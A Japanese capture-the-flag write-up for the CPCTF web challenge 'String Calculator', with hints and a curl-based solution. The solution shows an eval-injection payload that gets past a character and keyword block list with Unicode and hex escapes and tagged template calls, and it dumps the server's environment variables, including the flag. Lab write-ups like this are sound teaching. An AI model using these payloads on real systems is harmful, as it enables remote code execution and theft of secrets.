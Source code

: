 # String Calculator:Web:69.02pts
文字列結合に対応している電卓サイトを作ってみたよ！  
  
サイト → [https://string-calculator.web.cpctf.space/](https://string-calculator.web.cpctf.space/)  
  
ソースコード → [https://files.cpctf.space/string-calculator.zip](string-calculator.zip)  

**Hint1**  
この電卓の計算ロジックは `eval()` 関数で実装されています。`eval()` 関数は、文字列を JavaScript コードとして評価し、実行することができます。これには危険性があり、そのまま使うと計算だけでなくサーバーに好きなコードを実行させることができてしまいます。  

- [eval() - JavaScript | MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/eval)

そのため、この問題では入力に対し一部の記号やキーワードをブロックすることで悪意のあるコードの実行を対策しています。しかし、この対策で悪意のある入力を完全に防げているのでしょうか？  
**Hint2**  
`.` や `[]` がブロックされていてプロパティアクセスができないため、`process.env.FLAG` にアクセスして直接フラグを取得することはできません。  
そこで、`getFlag()` 関数が実行してフラグを取得することを考えましょう。しかし `()` がブロックされているため、`()` を使わずに `getFlag` を呼ぶ必要があります。  
**Hint3 (解法)**  
実は、JavaScript には `()` を使わずに関数を呼ぶ方法として、`new` 演算子やタグ付きテンプレートを使う方法があります。  

- [new 演算子 - JavaScript | MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Operators/new)  
- [タグ付きテンプレート - テンプレートリテラル (テンプレート文字列) - JavaScript | MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Template_literals#%E3%82%BF%E3%82%B0%E4%BB%98%E3%81%8D%E3%83%86%E3%83%B3%E3%83%97%E3%83%AC%E3%83%BC%E3%83%88)  

```js
function func() {
  this.hoge = "HOGE";
  return "FUGA";
}

console.log(new func); // { hoge: 'HOGE' }
console.log(func``); // 'FUGA'
```
この問題の `getFlag()` 関数はフラグを「返す」ため、タグ付きテンプレートを使うことでフラグを取得することができます。

# Solution
アクセスすると、文字列処理もできる計算機という謎のものが動いている。  
![site.png](site/site.png)  
ひとまずブラックボックスで攻略することを目指す。  
以下のように試すと、`console+""`で`"[object console]"`が返ってきたため、おそらくJavaScriptが動いているようだ。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d '1+1'
2
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'console+""'
"[object console]"
```
ここからRCEでflag.txtを読むか、/proc/self/environなど環境変数を取得すればよさそうだ。  
JavaScriptでは`process.env`で環境変数が取れるため、実行してみる。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'process.env'
Error: Invalid characters in input
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'process'
TypeError: Converting circular structure to JSON
    --> starting at object with constructor 'Module'
    |     property 'children' -> object with constructor 'Array'
    |     index 0 -> object with constructor 'Module'
    |     property 'children' -> object with constructor 'Array'
    --- index 0 closes the circle
```
`Invalid characters in input`と怒られる。  
`process`はエラーになるが動くので`.`がブラックリストに入っているのだろう。  
ここで`` Function`console.log(1)``` ``のようにXSSするテクニックを思い出す。  
呼び出す関数はテンプレートリテラルの中なのでHexでのエスケープで`` Function`console\x2Elog(1)``` ``ともできる。  
これを使えば`` Function`return process\x2eenv``` ``のように`.`を回避できそうだ。  
以下のように試してみる。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'Function`return process\x2eenv```'
Error: Invalid keywords in input
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d '`return process\x2eenv```'
TypeError: "return process.env" is not a function
```
`Invalid keywords in input`と新たな怒られが発生した。  
どうやらキーワードとして、`Function`も禁止されているらしい。  
ここでさらに、JavaScriptではUnicodeでのエスケープも使えることを思い出す。  
`Function`を`\u0046unction`としてやればよい。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d '\u0046unction`return process\x2eenv```'
{"npm_config_user_agent":"pnpm/10.8.0 npm/? node/v23.10.0 linux x64","NODE_VERSION":"23.10.0","HOSTNAME":"a263ceacb404","YARN_VERSION":"1.22.22","npm_node_execpath":"/usr/local/bin/node","SHLVL":"1","HOME":"/root","COREPACK_ROOT":"/usr/local/lib/node_modules/corepack","COREPACK_ENABLE_DOWNLOAD_PROMPT":"1","npm_config_registry":"https://registry.npmjs.org/","npm_config_node_gyp":"/root/.cache/node/corepack/v1/pnpm/10.8.0/dist/node_modules/node-gyp/bin/node-gyp.js","PATH":"/usr/src/app/node_modules/.bin:/root/.cache/node/corepack/v1/pnpm/10.8.0/dist/node-gyp-bin:/usr/src/app/node_modules/.bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","npm_package_name":"string-calculator","NODE":"/usr/local/bin/node","npm_config_frozen_lockfile":"","npm_lifecycle_script":"node server.js","npm_package_version":"1.0.0","npm_lifecycle_event":"start","npm_config_verify_deps_before_run":"false","npm_execpath":"/root/.cache/node/corepack/v1/pnpm/10.8.0/bin/pnpm.cjs","PWD":"/usr/src/app","npm_command":"run-script","PNPM_SCRIPT_SRC_DIR":"/usr/src/app","FLAG":"CPCTF{JavaScr!pt_!s_4n_4wes0me_1anguage}","NODE_ENV":"production","INIT_CWD":"/usr/src/app"}
```
環境変数の中から、flagが得られた。  
ソースを読むと、どうやら`getFlag`なるものがあったらしいが必要なかった。  

## CPCTF{JavaScr!pt_!s_4n_4wes0me_1anguage}